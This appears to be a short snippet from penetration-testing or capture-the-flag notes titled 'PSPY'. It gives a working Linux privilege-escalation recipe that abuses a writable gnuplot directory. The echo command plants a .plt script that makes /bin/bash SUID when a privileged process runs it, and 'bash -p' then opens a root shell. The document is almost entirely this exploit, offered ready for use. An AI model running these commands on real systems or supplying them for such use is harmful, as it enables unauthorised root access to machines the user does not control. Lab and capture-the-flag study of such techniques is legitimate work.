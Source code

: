 ### PSPY

---

```linux
echo 'system "chmod u+s /bin/bash"' > /opt/gnuplot/root.plt
/bin/bash -p

# Write permission in gnuplot
```
